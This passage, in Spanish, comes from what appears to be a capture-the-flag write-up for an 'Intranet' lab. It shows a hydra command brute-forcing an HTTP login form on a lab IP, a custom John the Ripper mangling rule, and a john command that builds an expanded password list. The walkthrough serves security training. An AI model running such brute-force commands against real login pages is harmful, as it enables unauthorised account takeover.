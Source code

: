 ``` list.txt
anders
Senior
Developer
```

Realizamos un ataque con `hydra` para verificar la validez de las contraseñas.


```
hydra -L list-usernames.txt -P list.txt 10.10.141.85 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error"
```
<figure><img src="../.gitbook/assets/Intranet/hydra-firs.png" alt=""><figcaption></figcaption></figure>

No encontramos contraseñas válidas para ninguna de las cuentas. Ahora tenemos dos opciones: buscar más contraseñas que puedan estar asociadas a diferentes servicios o crear una lista de contraseñas más extensa. Para esto, podemos utilizar `john`.

Generamos una lista de reglas para crear contraseñas más sofisticadas. Puedes hacerlo con un programa en `Python` que desarrolles tú mismo o utilizar alguna herramienta disponible en `GitHub`, pero yo optaré por usar `john`, ya que me parece más fácil de implementar.

```
[List.Rules:Intranet]
Az"[0-9]"
Az"[0-9][0-9]"
Az"[0-9][0-9][0-9]"
Az"[0-9][0-9][0-9][0-9]"
Az"[0-9]" $[!$§$%/()=?*@]
```

	Simplemente añadimos los dígitos del `0 al 9` al final de cada palabra y continuamos combinando hasta cuatro dígitos, por ejemplo, `login1248`. Además, también incluimos caracteres especiales al final de cada línea.

Esta regla la colocamos en `/etc/john/john.conf` y lo guardamos. Preferiblemente ponle junto a las otras reglas que ya tengas creadas.

```
sudo vi /etc/john/john.conf 
```

Generamos la nueva lista de contraseñas para su uso. Simplemente imprimimos la salida utilizando `--stdout` y la redirigimos con `>` para que se guarde en un archivo llamado `list_comple.txt`.

```
john --wordlist=list.txt --rules=intranet --stdout > list_comple.txt
```
